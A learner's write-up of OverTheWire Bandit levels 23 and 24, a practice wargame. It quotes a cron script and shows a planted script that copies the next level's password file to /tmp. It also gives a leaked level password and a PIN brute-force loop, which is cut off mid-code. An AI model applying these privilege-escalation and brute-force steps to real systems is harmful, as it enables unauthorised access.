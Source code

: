# Bandit 23
 
- this is another cron script. Here's what it says:
  ```
  #!/bin/bash
  myname=$(whoami)
  cd /var/spool/$myname
  echo "Executing and deleting all scripts in /var/spool/$myname:"
  for i in *.*;
  do
      if [ "$i" != "." -a "$i" != ".." ];
      then
          echo "Handling $i"
          owner="$(stat --format "%U" ./$i)"
          if [ "${owner}" = "bandit23" ]; then
              timeout -s 9 60 ./$i
          fi
          rm -f ./$i
      fi
  done
  ```
- Basically, it checks in the /var/spool/bandit24 directory for files owned by bandit23.
- It runs and deletes them after a minute (timeout -s 9 60 ./$1)
  - the part about the files named "." and ".." are for those files, which are hidden and exist in every Linux directory.
  - the script skips over them so it doesn't remove them
- I cd'd into /var/spool/bandit24 and made a really simple test script
  ```   
  #!/bin/bash
   echo it works
  ```
- I had to change permissions (chmod 777) but it worked, so I made a better script
  ```
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/test/pass.txt
   ```
- I had trouble, but then I remembered I needed to allow write access to pass.txt
  - chmod 666 pass.txt (if you have trouble understanding my chmod commands, read my security+ notes)
- after the longest minute ever, it worked:
  `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
 
# Bandit 24
 
- There is a listening daemon on 30002, and it will give me the password if i send it the bandit24 password and a 4-digit code.
- there isn't a hint for the code, I have to write a bruteforcing script.
- i knew I would need a for loop to set up my pincode, but I wasn't sure how to implement it
- I found this helpful tutorial:
  - https://ryanstutorials.net/bash-scripting-tutorial/bash-loops.php
- Here is my script:
  ```  
  #!/bin/bash
  for i in {0000..9999}
   do
       echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i
   done
  ```
- This verison just outputs the bruteforce and the password, to pass the output to the port I used the `>>` operand to append it to a file.
  ```  
  #!/bin/bash
   for i in {0000..9999}
      do
  ```